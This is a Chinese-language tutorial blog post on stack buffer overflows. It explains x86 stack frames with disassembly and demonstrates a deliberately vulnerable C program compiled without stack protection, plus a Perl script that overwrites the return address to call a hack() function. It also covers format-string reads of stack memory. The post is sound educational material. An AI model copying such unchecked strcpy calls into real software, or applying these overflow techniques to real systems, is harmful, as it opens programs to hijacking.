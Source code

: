 ```yaml
---
layout: post
title: Buffer Overflow Attack
tags: [程序员自我修养, C/C++]
keywords: Buffer Overflow Attack, Stack基本原理
description: Buffer Overflow通常指的是程序在向一个Buffer写入数据的时候，超出了Buffer的边界，从而对超出Buffer范围的内存进行写入。Buffer Overflow，会导致程序的一些异常行为，而容易被利用，使得程序遭到攻击。Buffer Overflow分为Heap和Stack，我这里主要讲解Stack上的Buffer Overflow。在讲解Buffer Overflow Attack之前，我们需要复习系C语言Stack的工作方式和原理。
category: 程序员自我修养
comments: true
share: true
---
```


Buffer Overflow通常指的是程序在向一个Buffer写入数据的时候，超出了Buffer的边界，从而对超出Buffer范围的内存进行写入。Buffer Overflow，会导致程序的一些异常行为，而容易被利用，使得程序遭到攻击。Buffer Overflow分为Heap和Stack，我这里主要讲解Stack上的Buffer Overflow。

##Stack基本工作原理
在讲解Buffer Overflow Attack之前，我们需要复习系C语言Stack的工作方式和原理。

在堆栈的操作中，有三个非常重要的寄存器：

* ebp
ebp存放的是栈底的地址，ebp是一个静态寄存器。
* esp
esp存放的是栈顶的地址。ebp与esp之间的内存，即为Stack内存空间。ebp和esp确定一个Stack Frame栈帧。
* eip
eip是cpu下一步将要执行的地址。

我们通常说，在函数执行调用执行之前，需要保护现场，其中ebp，esp，eip是三个重要的保护对象。

我们还是用一个demo来阐述Stack的工作原理：
{% highlight C++ linenos %}
// stack.h
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void plus(int a, int b)
{
    int c = a + b;
    printf("the plus result = %d\n", c);
}

int main(int argc, char** argv)
{
    int a = 9;
    int b = 18;
    plus(a, b);

    return 0;
}
{% endhighlight %}
编译命令如下：
    gcc -g -m32 stack.c
使用objdump dump出来的main和plus函数的汇编代码如下：
{% highlight objdump linenos %}
080483e4 <plus>:
 80483e4:   55                      push   %ebp
 80483e5:   89 e5                   mov    %esp,%ebp
 80483e7:   83 ec 28                sub    $0x28,%esp
 80483ea:   8b 45 0c                mov    0xc(%ebp),%eax
 80483ed:   8b 55 08                mov    0x8(%ebp),%edx
 80483f0:   01 d0                   add    %edx,%eax
 80483f2:   89 45 f4                mov    %eax,-0xc(%ebp)
 80483f5:   b8 10 85 04 08          mov    $0x8048510,%eax
 80483fa:   8b 55 f4                mov    -0xc(%ebp),%edx
 80483fd:   89 54 24 04             mov    %edx,0x4(%esp)
 8048401:   89 04 24                mov    %eax,(%esp)
 8048404:   e8 f7 fe ff ff          call   8048300 <printf@plt>
 8048409:   c9                      leave
 804840a:   c3                      ret

0804840b <main>:
 804840b:   55                      push   %ebp
 804840c:   89 e5                   mov    %esp,%ebp
 804840e:   83 e4 f0                and    $0xfffffff0,%esp
 8048411:   83 ec 20                sub    $0x20,%esp
 8048414:   c7 44 24 18 09 00 00    movl   $0x9,0x18(%esp)
 804841b:   00
 804841c:   c7 44 24 1c 12 00 00    movl   $0x12,0x1c(%esp)
 8048423:   00
 8048424:   8b 44 24 1c             mov    0x1c(%esp),%eax
 8048428:   89 44 24 04             mov    %eax,0x4(%esp)
 804842c:   8b 44 24 18             mov    0x18(%esp),%eax
 8048430:   89 04 24                mov    %eax,(%esp)
 8048433:   e8 ac ff ff ff          call   80483e4 <plus>
 8048438:   b8 00 00 00 00          mov    $0x0,%eax
 804843d:   c9                      leave
 804843e:   c3                      ret
 804843f:   90                      nop
{% endhighlight %}
在main函数中，一开始的2条汇编语句：
{% highlight asm %}
push %ebp
mov %esp,%ebp
{% endhighlight %}
首先是保存调用main函数调用者的栈底ebp，由于main函数的调用者的栈顶esp同时也是main函数的栈底，所有mov %esp,%ebp。此时esp = ebp。

紧接着：
{% highlight asm %}
sub    $0x20,%esp
{% endhighlight %}
由于栈的生长方向是向低地址的方向生长,esp = esp - 0x20。此时，ebp和esp确定了main函数的栈，其大小是32个字节。

之后的几个movl和mov，分别是给局部变量a，b分配空间和把要传递给plus的参数压栈。
在跳转到plus函数之前我们得到的main函数的栈内存情况如下：

<center>
![Alt Text](/images/mainStack.svg)
</center>
从上图中，你会发现，在跳转到plus函数之前，main函数的栈中多了一个eip。那么eip是在什么时候被压栈的呢？
其实是call操作的结果, call语句等价于下面的2句话：
{% highlight asm %}
push %eip
jump 80483e4 <plus>
{% endhighlight %}
push %eip是为了保存在plus函数执行完之后，要之下main函数的下一条语句的地址。

在进入plus函数之后，到plus leave之前，我们得到的栈内存情况如下图：
<center>
![Alt Text](/images/plusStack.svg)
</center>


上面讲到的是函数调用，栈的生长情况，在函数执行结束返回的以后，栈的操作恰好跟之前的操作相反。
在plus函数直接结束后，即将返回到main函数，使用了leave和ret。
一条leave语句相当于：
{% highlight asm %}
move %ebp,%esp
pop %ebp
{% endhighlight %}
让esp=ebp，相当于将plus的局部变量清楚，最后从栈中pop一个值存放到ebp中。这个值就是进入plus之后的第一条语句push的那个main函数的ebp。
那么，plus返回了，怎么才能知道下一条要执行什么语句呢？ret则做了最后的恢复工作，ret相当于：
{% highlight asm %}
pop %eip
{% endhighlight %}
eip被重新pop出来，恢复到进入plus函数之前的现场。


##Buffer Overflow

上面讲解了Stack的基本工作原理，我们再来看看，Linux下内存分布情况：
<center>
![Alt Text](/images/memory-layout.svg)
</center>
stack和heap的内存生长方向如图所示。在编译器不做保护的情况下，理论上，我们是可以操作stack和heap上的任何内存的。

{% highlight C++ linenos %}
// stack.c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


void copyCmds(char* str)
{
    char buff[6];
    printf("\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n\n");
    strcpy(buff, str);
    printf("\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n%08x\n\n");
}

void hack()
{
    printf("Hi, I am hacking\n");
}

int main(int argc, char** argv)
{
    if (argc != 2)
      return 0;
    printf("copyCmds = %08x\n hack = %08x\n", copyCmds, hack);
    copyCmds(argv[1]);

    return 0;
}
{% endhighlight %}

这段代码，一眼就看出来漏洞在于直接使用了strcpy而没有对长度进行限制。我这里仅仅只是拿来演示，如何通过stack overflow来让hack函数被调用。

我们可以看到，main函数调用了copycmds，根据之前我们对函数调用的分析，在main函数调用copyCmds之前，会将copyCmds返回之后要执行的地址存在eip中，然后push eip。当copyCmds返回之后，直接pop stack放到eip中，继续执行。如果我们可以改变这个push到stack上的eip的值，那么我们既可以控制copyCmds函数返回之后的行为，即下一条要执行的语句。

###窥探stack内容
在C/C++中，由于printf实现的原因，在printf内部，会从printf的stack上按顺序取出printf的参数进行解析。

    printf("\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n\n");
在copyCmds中，这句话就是用来查看stack上的数据。由于只给printf传递了格式化字符串，printf从stack上取出地址，然后按照格式化字符串中的格式进行解析。

另外，我们还可以使用printf查看指定地址的内存单元的内容：
    printf("\x87\x06\x34\x76 %08x %08x %08x %08x %08x");
可以用来查看0x76340687处的内存。在c语言中，字符串中使用\x的时候，编译器会将其替换成hex，然后存放在内存中。 %08x使得printf从stack的顶端开始移动，由于printf的格式化字符串也是存放在stack上的，如果我们通过%08x移动到存放格式化字符串的地方，就可以打印0x76340687处的内存了。我这里只是假设要到达格式化字符串的存储位置需要4个%08x, 也就是4个字节，最后一个%08x是用来解释0x76340687处的内容的。

###触发stack overflow
上面的代码编译命令如下：

    gcc -g -m32 -fno-stack-protector stack.c
-fno-stack-protector是为了disable编译器对stack溢出的保护。
我们先执行一遍，查看hack函数的地址：

    ./a.out hello
我的输出如下：

    copyCmds = 08048444
    hack = 08048478

由于c语言命令行字符串转换原因，我们没办法直接在命令行向可执行文件传递hex参数。这里，我借助了perl脚本：
{% highlight pl linenos %}
$arg = "aaaaaaaaaaaaaaaaaa"."\x78\x84\x04\x08";
$cmd = "./a.out ".$arg;

system($cmd);

{% endhighlight %}

    perl hack.pl
执行结果如下：

    copyCmds = 08048444
    hack = 08048478
    00000000
    ffe0e1a8
    f75feeff
    f7758a20
    08048628
    ffe0e198
    f75feed0
    08048628
    f7789918
    ffe0e1a8
    080484cf
    ffe0e443
    08048444
    08048478
    f7757ff4
    080484e0
    00000000
    00000000
    f75cb4d3
    00000002
    ffe0e443
    ffe0e1a8
    f75feeff
    f7758a20
    08048628
    6161e198
    61616161
    61616161
    61616161
    61616161
    08048478
    ffe0e400
    08048444
    08048478
    f7757ff4
    080484e0
    00000000
    00000000
    f75cb4d3
    00000002
    Hi, I am hacking

其中，perl脚本中字符串a的数量是我试了多次才hack成功。不同的机器上，可能需要overflow的个数不同。



